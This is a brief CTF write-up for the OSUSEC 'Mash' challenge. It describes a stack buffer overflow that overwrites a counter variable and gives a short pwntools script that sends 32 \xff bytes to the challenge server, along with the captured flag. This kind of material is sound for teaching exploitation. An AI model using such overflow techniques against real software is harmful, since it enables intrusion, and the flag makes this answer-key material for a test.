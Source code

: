 ```yaml
---
title: "OSUSEC CTF League 2020/2021 - Mash Writeup"
date: 2020-10-08
draft: false
description: ""
tags: ["ctf"]
---
```

Lets just run that binary
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
```

hmm, looks like we would have to press that enter button about 18446744073709551615 times.  Doesnt seem that doable, so lets try another approach.

Typing a bunch of `A`s we get:
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffff000a41
CURRENT COUNT: 0x4141414141414141
```

Interesting, looks like we can override the buffer here and have control over the counter.  So I filled the buffer and overwrote the variable on the stack with `\xff * 32` .
```python
from pwn import *

io = remote('ctf.ropcity.com', 31337)
#io = process("./mash")

padding = "\xff"*32
io.sendline(padding)

io.interactive()
```
And running the script we get the flag!
```
HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
osu{n3xt_1evel_butt0N_maSh1ng}
```